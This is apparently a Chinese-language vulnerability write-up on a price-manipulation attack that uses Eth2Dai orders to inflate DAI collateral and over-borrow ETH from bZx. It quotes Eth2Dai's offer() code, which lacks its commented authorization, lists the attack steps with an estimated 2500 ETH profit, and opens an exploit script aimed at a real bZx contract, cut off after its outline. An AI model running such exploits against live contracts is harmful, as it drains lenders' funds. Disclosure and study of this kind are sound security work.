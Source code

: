 

此外，我们观察到，尽管这些注释似乎表明只有授权用户才能调用` offer(uint，ERC20，uint，ERC20)`，但根本没有授权逻辑。

```
// Make a new offer. Takes funds from the caller into market escrow.
//
// If matching is enabled:
//     * creates new offer without putting it in
//       the sorted list.
//     * available to authorized contracts only!
//     * keepers should call insert(id,pos)
//       to put offer in the sorted list.
//
// If matching is disabled:
//     * calls expiring market's offer().
//     * available to everyone without authorization.
//     * no sorting is done.
//
function offer(
	uint pay_amt,    //maker (ask) sell how much
	ERC20 pay_gem,   //maker (ask) sell which token
	uint buy_amt,    //taker (ask) buy how much
	ERC20 buy_gem    //taker (ask) buy which token
)
	public
	returns (uint)
{
	require(!locked, "Reentrancy attempt");
	var fn = matchingEnabled ? _offeru : super.offer;
	return fn(pay_amt, pay_gem, buy_amt, buy_gem);
}
```

尽管实际上没有授权是无关紧要的，因为套利机器人会迅速执行任何可以自动匹配的订单，但在原子交易中，我们可以创建和取消可套利的订单，而机器人无法参与执行。

剩下的就是从上次攻击中稍微修改我们的脚本，以在Eth2Dai而不是OrderbookReserve下订单。请注意，在此案例中，我们将需要同时调用` order(uint，ERC20，uint，ERC20)`将订单提交给Eth2Dai，而无需对其进行原子匹配，然后调用` insert(uint，uint)`以进行手动排序订单而不触发匹配。

#### 攻击演示

以下脚本将通过以下方式获利约2500ETH：

1. 以10 ETH购买1 DAI 下单，价格从0.006ETH/DAI上涨到9.98ETH/DAI。
2. 使用DAI作为抵押品从bZx借入ETH
3. 取消所有订单并将所有资产兑换为ETH

```javascript
contract BZxOasisExploit is Script, Constants, TokenHelper, BZxHelpers {
    BZxLoanTokenV2Like private constant BZX_ETH = BZxLoanTokenV2Like(0x77f973FCaF871459aa58cd81881Ce453759281bC);
    
    uint constant private INITIAL_BALANCE = 250 ether;
    
    function setup() public {
        name("bzx-oasis-exploit");
        blockNumber(8455720);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.makeOrder)
            .then(this.checkRates)
            .then(this.borrow)
            .then(this.cleanup)
            .finally(this.checkProfits);
```